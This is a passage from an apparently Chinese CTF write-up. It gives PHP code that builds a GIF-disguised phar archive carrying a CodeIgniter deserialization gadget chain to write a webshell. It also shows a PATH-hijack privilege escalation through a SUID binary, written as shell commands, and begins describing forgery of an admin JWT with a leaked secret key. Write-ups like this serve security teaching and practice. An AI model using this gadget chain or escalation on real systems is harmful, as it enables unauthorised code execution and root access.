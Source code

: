 ```

namespace`{`
    $code = new \CodeIgniter\HTTP\CURLRequest();
    $memcached = new \CodeIgniter\Session\Handlers\MemcachedHandler($code);
    $redis = new \CodeIgniter\Cache\Handlers\RedisHandler($memcached);
    $a = $redis;
    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar-&gt;startBuffering();
    $phar-&gt;setStub("GIF89a"."&lt;?php __HALT_COMPILER(); ?&gt;"); //设置stub，增加gif文件头
    $phar-&gt;setMetadata($a); //将自定义meta-data存入manifest
    $phar-&gt;addFromString("test.txt", "test"); //添加要压缩的文件
        //签名自动计算
    $phar-&gt;stopBuffering();
`}`
?&gt;
```

最后只需要将生成的phar包进行`gzip`或者`bzip2`压缩后修改后缀为jpg上传后再通过phar触发反序列化写入shell

getshell后发现还需要提权，存在一个readflag文件属性是SUID:

[![](https://p4.ssl.qhimg.com/t01394ee3460ee58336.png)](https://p4.ssl.qhimg.com/t01394ee3460ee58336.png)

其实是一个很经典的环境变量PATH提权，以前在vulnhub的`Bytesec`这个虚拟机里出现过该考点

<strong>该环境变量提权的思路就是：<br>
重新设置环境变量在/tmp目录下，则我们在使用/usr/bin/ls时使用的系统命令会定位到/tmp路径下的ls可执行程序，而内容已被我们篡改，因为ls是SUID权限，即运行时有root权限，所以我们借这个SUID位执行我们设置的ls,即我们以root身份打开了一个/bin/sh，成功提权。</strong>

因此可以构造如下:

```
cd /tmp #只有/tmp目录下可写
echo "/bin/sh" &gt; ls #将/bin/sh写入ls
chmod +x ls #赋予可执行权限给netstat
echo $PATH #查看当前环境变量
export PATH=/tmp:$PATH
```

最后提权root



## web2

这题入口只能说是个脑洞题。。那么久没给hint不知道咋想的，给hint之后能读jwt的`secret_key`，结合之前扫目录发现的`register`路由可以根据POST的`username`来生成对应的token，拿到`secret_key`便能够伪造admin身份了:

[![](https://p4.ssl.qhimg.com/t016d23e2fe50085bae.png)](https://p4.ssl.qhimg.com/t016d23e2fe50085bae.png)

伪造完之后发现可以读取源码:

[![](https://p1.ssl.qhimg.com/t01fd5038f4164fdbd8.png)](https://p1.ssl.qhimg.com/t01fd5038f4164fdbd8.png)
